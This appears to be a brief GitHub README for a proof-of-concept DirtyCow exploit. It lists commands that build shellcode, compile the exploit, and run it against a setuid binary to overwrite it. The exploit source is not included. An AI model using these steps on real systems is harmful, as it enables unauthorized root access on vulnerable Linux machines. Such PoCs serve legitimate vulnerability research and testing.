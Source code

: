 # dc
Proof of concept for DirtyCow

```
$ musl-gcc ./sh.s -Os -s -nostdlib
$ xxd -i ./a.out > a.out.h
$ musl-gcc -Os -s -static ./dc.c -o dc
$ ./dc <path_to_setuid_binary> <output_file>
```
